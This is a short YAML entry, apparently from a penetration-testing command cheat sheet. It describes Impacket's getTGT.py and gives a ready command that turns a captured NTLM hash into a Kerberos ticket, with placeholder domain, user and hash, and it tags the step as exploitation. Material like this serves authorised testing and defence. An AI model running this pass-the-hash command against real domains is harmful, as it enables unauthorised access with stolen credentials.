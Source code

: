 ```yaml
---
description: |
  Impacket's getTGT.py uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  python3 getTGT.py test.local/john -dc-ip 10.10.10.1 -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

